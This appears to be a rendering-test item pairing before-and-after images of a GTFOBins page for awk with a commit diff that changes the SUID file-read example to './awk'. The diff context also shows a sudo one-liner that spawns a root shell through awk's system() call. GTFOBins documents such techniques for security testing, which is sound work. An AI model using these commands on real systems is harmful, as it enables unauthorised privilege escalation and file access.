

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/awk.md, in a window 1280 px wide. Shown: the part 1444-1744 px from the top of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add ./ to SUID category in awk.md

```diff
--- a/_gtfobins/awk.md
+++ b/_gtfobins/awk.md
@@ -30,7 +30,7 @@ functions:
   suid:
     - code: |
         LFILE=file_to_read
-        awk '//' "$LFILE"
+        ./awk '//' "$LFILE"
   sudo:
     - code: sudo awk 'BEGIN {system("/bin/sh")}'
   limited-suid:
```
